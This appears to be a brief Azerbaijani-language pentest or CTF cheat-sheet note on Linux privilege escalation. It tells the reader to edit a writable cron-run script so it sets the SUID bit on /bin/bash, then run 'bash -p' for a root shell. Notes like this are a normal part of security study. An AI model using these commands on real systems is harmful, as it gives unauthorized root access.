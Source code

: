 ## EGER HARDASAN CRONTAB EMRI ILE ZAMAN ILE HANSISA TEXT FAYLI GORURUKSE VE O FAYLA DEYISIKLIK EDE BILIRIKSE VE HEMIN FAYla 
    # nano 
## NANO VERENDEN SONRA VE HEMIN FAYLA DAXIL OLURUQ
      #  #!/bin/bash 
    # chmod  4755 /bin/bash 

## VE ARTIQ CRONTABA TEYIN ETTIYI ZAMANDA RUNLAYANDA /bin/bash EMRINE SUIT VERMISH OLACAQ 
           #      /bin/bash -p 
EMRI ILE BIZ ARTIQ ROOTA KECMISH OLURUQ
